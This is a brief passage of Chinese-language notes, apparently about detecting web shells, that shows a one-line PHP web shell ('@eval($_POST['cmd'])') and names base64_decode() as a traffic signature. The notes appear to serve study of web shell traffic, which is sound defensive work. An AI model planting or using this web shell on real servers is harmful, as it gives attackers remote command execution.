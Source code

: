![image-20230815141103112](img/WebShell/image-20230815141103112.png)

#### 流量

**php**马如下：

```php
<?php @eval($_POST['cmd']);?>
```

流量特征：base64_decode()
